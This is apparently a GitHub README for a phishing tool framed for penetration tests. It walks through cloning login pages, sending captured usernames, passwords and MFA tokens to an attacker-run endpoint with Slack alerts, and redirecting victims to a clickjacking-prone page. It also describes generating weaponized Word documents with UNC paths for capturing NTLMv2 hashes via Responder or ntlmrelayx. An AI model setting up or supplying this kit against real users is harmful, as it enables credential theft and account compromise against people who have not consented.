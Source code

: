# Phishing-API
Easy Deployment API for Phishing During Pentest Engagements.  Output to MySQL/Web Table &amp; Slack Bot.  Supports BEEF Hooking & HaveIBeenPwned!


This is intended to be a "quick and dirty" solution when Phishing.  For better results, use Evilnginx or another solution.  This is for someone who wants to quickly clone a site, start collecting credentials within minutes, and be notified in real time when there's a catch!  Enjoy!

## Update

I've added support for MS Word document generation.  Now, simply go to the API to create your payload, email it off, and wait for the Slack notification.  It automatically includes a UNC path back as well so if you're running Responder or ntlmrelayx you can capture NTLMv2 hashes!  NOW with newly added support for weaponizing your own Word doc templates!  Just upload an existing doc and download it again to hook it.


# To Setup :

1) Import the DB SQL Dump Schema to a new MySQL Instance

2) Host the PHP from a web service (Apache, Nginx, IIS, etc)

3) Configure dbconfig.php and index.php variables

4) Limit Access to the "Results" Directory (Apache's Basic Auth is Recommended)

5) Use SSL and a Domain for the Hosted API (Configure DNS MASKED Forwarding Instead of an A Name Record for Best Results)



# To Use the API for Capturing Credentials : 

1) Point your HTML Form to https://YOUR-API-HERE

	`<FORM METHOD="POST" ACTION="https://YOUR-API-HERE">`

2)  Make sure the following authentication fields are set

	`<INPUT NAME="username">`
	
	`<INPUT NAME="password">`
	
	(OPTIONAL MFA FIELD)  `<INPUT NAME="token">`
	
3) Add hidden input fields for the name of the project and the URL the users should be redirected to after submitting their credentials to you (Recommend Legitimate Login Location - For Best Results Use a Clickjacking Vulnerable URL That Allows iFRAMEs)

	`<INPUT NAME="project" VALUE="My_Project_Here" TYPE="hidden">`
	
	`<INPUT NAME="redirect" VALUE="https://site_to_redirect_to" TYPE="hidden">`
	
4) Optionally include hidden input fields for altering the Slack bot's behavior (Name and Emoji)

	`<INPUT NAME="slackbotname" VALUE="SuckerBot" TYPE="hidden">`
	
	`<INPUT NAME="slackemoji" VALUE=":see_no_evil:" TYPE="hidden">`
	
5) Sit back and wait for the Slack bot to notify you.  When you want to see the credentials visit https://YOUR-API-HERE/results using your basic auth credentials


![Notification to Slack Channel](https://i.imgur.com/L8yYRMQ.png)

                  
            
![View Captured Credentials via Web](https://i.imgur.com/iLPU2pH.png)


# To Use the API for Generating Word Doc Payloads :

1) Modify /phishingdocs/index.php to include your Slack Webhook parameters

2) Create /var/www/uploads Path and make sure your web user has sudoers access

3) Browse out to YOUR_URL.com/phishingdocs to generate your DOCX

4) Optionally set up Responder or ntlmrelayx

5) Email your doc and wait for the Slack alerts!  

**Bonus points if you use your docs as honeypot bait! :)**



![Payload Generation](https://i.imgur.com/BZqyx6Z.png)

                  
            
	    
![Downloading and Openinig Doc](https://i.imgur.com/0wQZJvy.png)

                  
            
	    
![Phishing Doc Slack Alert](https://i.imgur.com/FXdDm6t.png)




![Phishing Doc Results](https://i.imgur.com/KGJtOJA.png)
